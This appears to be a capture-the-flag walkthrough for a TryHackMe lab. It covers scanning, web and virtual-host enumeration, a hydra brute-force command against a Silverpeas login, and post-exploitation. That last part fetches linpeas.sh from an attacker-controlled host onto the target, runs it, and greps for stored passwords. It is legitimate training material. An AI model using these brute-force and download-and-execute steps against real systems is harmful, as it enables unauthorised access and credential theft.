 # SilverPlatter Enumeration & Exploitation Walkthrough

## Adding the IP to `/etc/hosts`
To avoid repeatedly typing the IP address, add it to the hosts file:
```bash
sudo nano /etc/hosts
[IP] silverplatter.thm
```

## Network Scanning
### Full Port Scan
```bash
nmap -p- silverplatter.thm -T5 -v
```
### Targeted Service Scan
```bash
nmap -p 22,80,8080 -A silverplatter.thm -v
```

**Scan Results:**
- **SSH (22)**: OpenSSH 8.9p1 (Ubuntu Linux)
- **HTTP (80)**: nginx 1.18.0 (Ubuntu)
- **HTTP Proxy (8080)**: Running unknown service

## RustScan Installation & Usage
Download and unzip RustScan:
```bash
cd ~/Downloads
unzip rustscan-2.3.0-x86_64-linux.zip
```
Move RustScan to a system-wide location:
```bash
sudo mv rustscan /usr/local/bin
```
Run RustScan:
```bash
cd ~/intro/silver
rustscan -a silverplatter.thm -- -A
```

## Web Application Enumeration
### SSH (22)
```bash
ssh root@silverplatter.thm
```
- SSH uses password-based authentication.

### HTTP (80) - Directory Enumeration
Install and run `dirsearch`:
```bash
pipx install dirsearch
dirsearch -u http://silverplatter.thm
```
**Findings:**
- `/assets/` (403 Forbidden)
- `/images/` (403 Forbidden)
- `/LICENSE.txt` (200 OK)
- `/README.txt` (200 OK)

### Virtual Host Enumeration
Download and run the `vhost-fuzzer.sh` script:
```bash
nano vhost-fuzzer.sh
chmod +x vhost-fuzzer.sh
./vhost-fuzzer.sh silverplatter.thm /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://silverplatter.thm 1
```

## Web Enumeration - Burp Suite
Load `http://silverplatter.thm` in Burp Suite and analyze requests.
- **Software Identified:** Silverpeas
- **Username Enumeration:** `scr1ptkiddy`

## HTTP (8080) - Custom Password List
Create a custom password list using `cewl`:
```bash
cewl http://silverplatter.thm > custom_passwords.txt
```
Crack passwords using Turbo Intruder in Burp Suite.

### Hydra Brute Force Attack
```bash
hydra -l scr1ptkiddy -P custom_passwords.txt silverplatter.thm -s 8080 http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:Login or password incorrect" -V -t 2
```

## Post-Exploitation - Privilege Escalation
### Checking User Privileges
```bash
sudo -l
```
### Exploring Interesting Files & Folders
```bash
cd /
ls -la
cd /opt
ls -la
cd /var
ls -la
```

### Privilege Escalation Checklist
```bash
uname -a
cat /etc/issue
```

### Using Linpeas for Enumeration
Download and execute `linpeas.sh`:
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```
On the target machine:
```bash
cd /tmp
wget http://[attacker_ip]/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### Searching for Stored Credentials
```bash
grep -ir "password"
```
**Found Password:** `*_Zd*zx7N823/`

## Next Steps
Congratulations on completing this enumeration and exploitation walkthrough!

### Recommended Resources:
- [TryHackMe](https://tryhackme.com/)
- [Hack The Box](https://app.hackthebox.com/)
- [VulnLab](https://vulnlab.com/)
- [PwnedLabs](https://pwnedlabs.io/)
- [Tyler Ramsbey's YouTube](https://youtube.com/@TylerRamsbey)

Join cybersecurity communities for discussions and learning:
- [Hack Smarter Discord](https://discord.gg/hacksmarter)
- [Simply Cyber Discord](https://discord.gg/simplycyber)

Happy Hacking! 🚀


